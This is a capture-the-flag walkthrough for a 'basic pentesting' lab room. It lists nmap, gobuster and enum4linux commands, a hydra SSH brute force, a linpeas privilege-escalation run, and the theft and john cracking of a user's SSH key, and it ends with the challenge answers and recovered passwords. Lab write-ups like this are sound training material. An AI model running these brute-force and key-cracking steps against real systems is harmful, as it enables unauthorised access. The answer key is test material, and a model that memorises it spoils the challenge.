 # basic pentesting

target_ip : 10.10.85.182

# Experiments :

1.  found open ports with `sudo nmap -A -Pn -T4 <ip>` : `22,80,139,445,8009,8080`
    
    ```
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http        Apache Tomcat 9.0.7
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.7

    ```

2.  found dir using gobuster : ip:80/development
    `sudo gobuster dir -u http://<ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt`
    
3.  scanned with `enum4linux -a <ip>` and found two users "jan" and "kay" for Samba Server 4.3.11-Ubuntu(running on port `445`)

4.  bruteforcing password with hydra on SSH and found password for jan:`armando`
    `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`

5.  bruteforcing password with hydra on SSH and found no password for kay
    `hydra -l kay -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`
    
6.  copied (scp) linpeas.sh(https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to target in `/dev/shm` ran it for privrlrdge escalation

7.  found `id_rsa` (private key) for `kay` and copied it.

6. `id_rsa` was passphrase protected so use `john` to crack it
    
    ```
    ~/john/run/ssh2john.py kay_id_rsa > john-kay_id_rsa 
    
    john john-kay_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt | tee kay_john
    
    ```

    found passphrase `beeswax` 

8.  ssh to kay@<ip>

10. found pass.bak in kay's home directory which is the last bit we need to complete the room. [cat and paste]


# Challenges Ans

1.  Deploy the machine and connect to our network [openvpn]

2.  Find the services exposed by the machine [nmap]

3.  What is the name of the hidden directory on the web server(enter name without /)? [gobuster]
    
    ```
    /development (Status: 301)
    /server-status (Status: 403)

    ```
4. User brute-forcing to find the username & password [enum4linux-usernames, hydra-passwd]

5.  What is the username? - jan

6.  What is the password? - armando

7.  What service do you use to access the server(answer in abbreviation in all caps)? - SSH

8.  Enumerate the machine to find any vectors for privilege escalation. [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

9.  What is the name of the other user you found(all lower case)? - kay

10. If you have found another user, what can you do with this information?

11. What is the final password you obtain? - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
